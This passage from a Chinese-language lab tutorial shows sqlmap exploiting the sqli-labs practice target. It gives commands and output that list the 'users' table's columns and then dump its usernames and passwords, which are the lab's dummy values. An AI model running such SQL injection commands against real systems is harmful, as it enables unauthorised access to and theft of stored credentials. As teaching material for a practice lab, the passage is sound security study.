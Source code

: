 emails
referers
uagents
users <a name="rLD4A"></a>

## 查看字段名

`sqlmap -u 192.168.31.193/Less-1/?id=1 --batch -D "security" -T "users" --columns`

> \-T "users" ：指定表名称
> \--columns：查看字段名

```
┌──(root㉿guoyx)-[/home/kali]
└─# sqlmap -u 192.168.31.193/Less-1/?id=1 -D security -T users --columns

[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(3)      |
| password | varchar(20) |
| username | varchar(20) |
+----------+-------------+

```

id
password
username <a name="dvpUW"></a>

## 查看字段

`sqlmap -u 192.168.31.193/Less-1/?id=1 --batch -D "security" -T "users" -C id,password,username --dump`

> \-C id,password,username：指定要显示的列
> \--dump脱裤

```bash
┌──(root㉿guoyx)-[/home/kali]
└─# sqlmap -u 192.168.31.193/Less-1/?id=1 --batch -D "security" -T "users" -C id,password,username --dump

[13 entries]
+----+------------+----------+
| id | password   | username |
+----+------------+----------+
| 1  | Dumb       | Dumb     |
| 2  | I-kill-you | Angelina |
| 3  | p@ssword   | Dummy    |
| 4  | crappy     | secure   |
| 5  | stupidity  | stupid   |
| 6  | genious    | superman |
| 7  | mob!le     | batman   |
| 8  | admin      | admin    |
| 9  | admin1     | admin1   |
| 10 | admin2     | admin2   |
| 11 | admin3     | admin3   |
| 12 | dumbo      | dhakkan  |
| 14 | admin4     | admin4   |
+----+------------+----------+
```
